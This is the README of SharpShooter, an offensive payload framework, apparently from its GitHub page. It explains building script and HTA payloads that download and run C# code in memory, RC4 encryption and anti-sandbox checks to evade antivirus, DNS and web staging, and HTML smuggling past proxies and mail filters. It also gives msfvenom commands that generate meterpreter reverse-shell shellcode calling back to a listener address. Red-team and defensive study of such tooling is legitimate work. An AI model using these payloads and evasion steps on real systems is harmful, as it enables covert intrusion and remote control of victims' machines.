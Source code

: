 ```
   _____ __                    _____ __                __           
  / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
  \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
 ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /    
/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/     
                     /_/                                            

```

Description
===========

SharpShooter is a payload creation framework for the retrieval and execution of arbitrary CSharp source code.
SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's DotNetToJavaScript tool to invoke methods from the SharpShooter DotNet serialised object. Payloads can be retrieved using with Web or DNS delivery; SharpShooter is compatible with the MDSec ActiveBreach PowerDNS project.

SharpShooter payloads are RC4 encrypted to provide some anti-virus evasion, and the project includes the capability to integrate sandbox detection and environment keying to assist in evading detection.

SharpShooter includes a predefined CSharp template for executing shellcode, but any CSharp code can be compiled and invoked in memory using reflection, courtesy of CSharp's CodeDom.

Finally, SharpShooter provides the ability to bundle the payload in a HTML file using the Demiguise HTML smuggling technique.

Further information can be found on the MDSec blog post.

Usage:
======

SharpShooter uses an interactive menu to configure and build the payload options, each of the menu prompts are described below.

```
[*] Select the type of payload to generate:
[1] HTA
[2] JS
[3] JSE
[4] VBA
[5] VBE
[6] VBS
[7] WSF
```
The above menu selects the type of payload that you want to generate. Currently VBA is only partly supported, pending further development/research. The generated payload will be written to the "output" folder.

```
[*] The following anti-sandbox techniques are available:
[1] Key to Domain
[2] Ensure Domain Joined
[3] Check for Sandbox Artifacts
[4] Check for Bad MACs
[5] Check for Debugging
[0] Done
```

SharpShooter includes the ability to embed anti-sandbox defences in to the payload, these are predominantly taken from the CheckPlease project with the exception of Domain Keying which allows you to limit your payload to running only on domain members from a target domain. More than one technique can be selected and if the conditions are met, such as the host not being domain joined (2), then the payload will not execute. The theory here is that if the sandbox does not see the bad behaviour, it will assume it to be safe.

```
[*] Select the delivery method for the staged payload:
[1] Web Delivery
[2] PowerDNS Delivery
[3] Both
```

This menu option details the method that will be used to perform staging and whether this happens using web delivery, DNS or both. During this process, the payload will retrieve the CSharp source code from the provided URL; the source code is gzip'd and base64 encoded.

```
[*] Do you want to use the builtin shellcode template? Y/N
```

SharpShooter contains a basic template for executing shellcode, here you can paste in a CSharp byte array of either your x86 or x64 shellcode.

On 64-bit systems you must use x64 shellcode for JS/JSE, VBS/VBE and WSF payloads; you can generate it similar to the following:

```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=172.16.164.203 LPORT=8080 EnableStageEncoding=True PrependMigrate=True -f csharp
```

For 32-bit or when handling HTA files, the shellcode must be x86 and can be generated as follows:

```
msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=172.16.164.203 LPORT=8080 EnableStageEncoding=True StageEncoder=x86/shikata_ga_nai -f csharp
```

When using web delivery, SharpShooter will prompt for the location where your CSharp payload is hosted:

```
[*] Provide URI for CSharp web delivery
```

Here you should provide the URL to where you've hosted the output.payload file. If you're using DNS delivery, you should provide the staging host where PowerDNS is running. It should be noted that SharpShooter will fallback to DNS delivery if web delivery fails, for example should your user not be able to make web requests in your target environment.

```
[*] Do you want to smuggle inside HTML?
```

When SharpShooter prompts as above, it offers the ability to perform a HTML smuggling attack. This will take the previously generated SharpShooter payload and embed it inside a HTML file, rc4 encrypted and retrievable via most modern browsers. This file can be useful for bypassing certain proxy restrictions such as MIME type or extension blocking, or submiting the payload via e-mail as HTML is a permitted attachment in most mail clients.
SharpShooter contains 2 pre-defined templates; it is recommended you create a custom template using these as an example.

Author and Credits
==================
Author: Dominic Chell (@domchell)

Credits:
- @tiraniddo: James Forshaw for DotNetToJScript
- @Arno0x0x: for EmbedInHTML
- @buffaloverflow: Rich Warren for Demiguise
- @arvanaghi and @ChrisTruncer: Brandon Arvanaghi and Chris Truncer for CheckPlease